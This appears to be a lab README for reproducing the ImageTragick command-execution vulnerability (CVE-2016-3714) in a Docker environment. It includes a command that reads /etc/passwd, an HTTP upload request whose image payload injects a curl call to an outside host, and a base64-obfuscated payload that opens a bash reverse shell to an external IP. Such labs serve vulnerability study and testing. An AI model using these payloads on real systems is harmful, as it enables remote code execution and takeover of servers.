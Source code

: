 # Imagetragick Command Execution Vulnerability (CVE-2016–3714)

[中文版本(Chinese version)](README.zh-cn.md)

Referers:

- https://imagetragick.com/
- https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

## Environment Setup

Enter the following commands:

```
docker-compose build
docker-compose up -d
```

Visit `http://your-ip/` and you'll see three files:

```bash
├── demo.php # use vul.jpg + identify command to test 
├── upload.php # Support users to upload a file，deliver it to PHP's imagick extension, and then the vulnerability will be triggered
└── vul.jpg # a simple POC
```

## POC

Some POCs used: https://github.com/ImageTragick/PoCs

You can take a test by visiting `http://your-ip/demo.php`. Even though the command executed (`cat /etc/passwd > /tmp/success`) has no echo reply, we successfully obtain the `/tmp/success` file in the docker container:

![](1.png)

Also you can visit `http://your-ip/upload.php` to test another POC. Upload the POC file and packets are as follows（**Attention: this is another POC**）：

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

As shown, `www.leavesongs.com:8889` has received the http request, proving that the curl command is executed successfully：

![](2.png)

POC of getting a shell：

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
pop graphic-context
```

![](3.png)
